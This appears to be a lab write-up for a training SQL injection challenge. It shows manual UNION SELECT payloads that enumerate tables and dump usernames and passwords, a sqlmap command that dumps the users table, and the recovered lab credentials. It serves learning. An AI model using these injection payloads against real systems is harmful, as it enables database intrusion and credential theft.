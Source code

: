 
## **Overview**

We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***
## **Manually**


We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us a `_users` and `_products` table 
 
![](https://i.imgur.com/mxIbLRO.png)


We can then attempt to dump the content of this table, After much enumeration, i found out the **injection0x03_users** has only two columns which is `username` and password, Using the following queries we can dump them out

```sql
senpai' union select null,null,null,username from injection0x03_users#
```


![](https://i.imgur.com/BKUKrVt.png)



```
senpai' union select null,null,null,password from injection0x03_users#
```



![](https://i.imgur.com/SR50Gtn.png)


So definitely, our Username and password is `takeshi:onigirigadaisuki`


## **SQLMAP**


As usual intercept your request in burp and save it to a `.txt` file

![](https://i.imgur.com/m6THEmF.png)


On your command line run this and you should have the `injection0x03_users` table dumped

```bash
$ sqlmap -r request.txt --level=2 --dump -T injection0x03_users
```


![](https://i.imgur.com/IsNK5wU.jpg)

